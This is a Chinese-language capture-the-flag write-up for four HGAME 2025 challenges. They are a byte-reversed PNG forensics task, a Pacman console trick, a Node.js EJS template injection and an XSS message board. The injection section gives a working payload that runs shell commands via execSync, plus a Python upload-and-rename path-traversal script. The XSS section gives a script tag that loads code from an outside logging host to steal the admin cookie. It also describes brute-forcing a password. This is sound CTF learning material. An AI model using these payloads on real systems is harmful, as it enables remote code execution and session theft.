 
### Hakuya Want A Girl Friend

1. 010 Editor 以十六进制粘贴。
2. 执行 file 命令发现是一个压缩包。
3. 010 Editor 重新打开发现压缩包后面有一段数据，将两段数据分开，前者得到一个加密压缩包，后者以 82 60 42 AE 44 4E 45 49 开头，注意到这是 PNG 文件尾按字节翻转之后的结果，因此分离这段数据并使用 Python 脚本再次按字节翻转。
4. PNG 文件损坏，这种情况可能是文件宽高被修改导致的，因此我们使用[另一个脚本](https://blog.csdn.net/ttovlove_/article/details/135091663) CRC 爆破出宽和高。
5. 用 010 Editor 打开 PNG 文件，将高度修改为 779，同时将 CRC 改为这种情况下计算出来的 CRC，查看 PNG 得到密码 To_f1nd_th3_QQ。
6. 使用密码打开压缩包，得到 flag。

按字节翻转文件的脚本如下

```python
def reverse_hex_file(input_file, output_file):
    with open(input_file, 'rb') as f:
        data = f.read()
    
    reversed_data = data[::-1]
    
    with open(output_file, 'wb') as f:
        f.write(reversed_data)

if __name__ == "__main__":
    input_file = 'HGAME2025/input.hex'  # Replace with your input file path
    output_file = 'output.hex'  # Replace with your output file path
    reverse_hex_file(input_file, output_file)
```

### Level 24 Pacman

直接看 game.js，混淆了，看的头大。

console 里面输 score，发现有一个 `_SCORE` 变量，设为 10000，分数变了，那没事了。

手动搞死自己，拿到 flag，控制台也有写，我的是：aGFldTRlcGNhXzR0cmdte19yX2Ftbm1zZX0=

使用 CyberChef 先 base64 解码然后凯撒密码偏移量 13，得到：hgame{u_4re_pacman_m4ster}

### Level 47 BandBomb

此题是一个 nodejs 的 SSTI，相关 Payload 如下：

```js
<!-- mortis.ejs -->
<% 
  // 确保 `execSync` 被正确引用并执行命令
  const execSync = process.mainModule.require('child_process').execSync;
  let result = '';
  try {
    result = execSync('env').toString();  // 执行命令并捕获输出
  } catch (error) {
    result = '命令执行失败';
  }
%>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Motris - 文件列表</title>
</head>
<body>
  <h1>文件列表</h1>
  <ul>
    <% if (files && files.length) { %>
      <% files.forEach(file => { %>
        <li><%= file %></li>
      <% }) %>
    <% } else { %>
      <p>没有文件。</p>
    <% } %>
  </ul>

  <!-- 在网页上显示服务器执行的命令输出 -->
  <h2>命令输出</h2>
  <pre><%= result || '无法获取命令输出' %></pre>
</body>
</html>
```

```python
import requests
import json

url = "http://node1.hgame.vidar.club:31862"  # 替换为目标网址

with open("HGAME2025/mortis.ejs", 'r', encoding='utf-8') as file:
    files = {'file': ("mortis.ejs", file)}
    response = requests.post(f"{url}/upload", files=files)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

data = {
    "oldName": "mortis.ejs",
    "newName": "../views/mortis.ejs"
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(f"{url}/rename", data=json.dumps(data), headers=headers)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```

之后访问即可拿到 flag。

### Level 69 MysteryMessageBoard

使用 BurpSuite 的 Intruder 跑字典，跑出来 shallot 账号密码是 888888。

使用“留言板 CTF”作为关键字搜索得知本题为 XSS，我们使用 xssaq.com 作为 XSS 记录网站。

留言 `<sCRiPt sRC=//xs.pe/GAS></sCrIpT>`，之后访问 admin 路由让 admin 来访问，在上述网站拿到 admin 的 cookie。

修改 cookie 成 admin 的 cookie，然后访问 flag 路由拿到 flag。